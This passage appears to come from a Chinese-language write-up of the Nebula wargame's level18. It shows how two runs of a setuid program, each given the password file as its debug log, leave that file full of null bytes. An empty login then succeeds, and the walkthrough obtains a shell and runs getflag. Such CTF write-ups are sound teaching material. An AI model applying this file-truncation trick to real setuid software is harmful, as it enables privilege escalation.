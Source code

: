 ```c
}
```

如果 PWFILE 这个文件有内容且第一个字节是 \x00，那么 fgets 拿到的就会是一个空字符串，这时直接输入 login （即调用 login("")） 就可以成功登录了。

具体步骤，先以如下参数打开进程 A，debug 日志文件指定为 password 文件

```bash
level18@nebula:~$ /home/flag18/flag18 -d /home/flag18/password
```

这时 password 文件会被写入 `Starting up. Verbose level = 0`，且进程 A 的 debugfile fd 由于已经写入了 data，offset 会对应向后移动。

然后在另一个窗口，以如下参数打开进程 B

```bash
level18@nebula:~$ /home/flag18/flag18 -d /home/flag18/password -d /tmp/abc
```

这时由于以下实现， password 文件会被清空（而且这段代码还有上面的login函数都存在fd泄露的问题，不确定是否可以作为另一种解法被利用）

```c
  while((c = getopt(argc, argv, "d:v")) != -1) {
      switch(c) {
          case 'd':
              globals.debugfile = fopen(optarg, "w+");
              if(globals.debugfile == NULL) err(1, "Unable to open %s", optarg);
              setvbuf(globals.debugfile, NULL, _IONBF, 0);
              break;
          case 'v':
              globals.verbose++;
              break;
      }
  }
```

然后回到进程A，输入 login（别的也可以，只要能让 A 往 debug file 输出东西就行），A 会继续向已经被清空的 password 文件输出内容，此时由于 debug file fd 的 offset 已经不是 0 了，会导致 password 文件从 0 到原 offset 的位置上的数据都变为 \x00，像图中这样。

![l18.png](/assets/img/l18.png)

最后新起一个进程 C，不带任何参数（因为根据代码实现，调用 shell 的时候会把 argv 带上，所以不能直接用进程 A），login、shell 一把梭，就可以了。

```bash
level18@nebula:~$ /home/flag18/flag18
login
shell
flag18@nebula:~$ getflag
You have successfully executed getflag on a target account
```
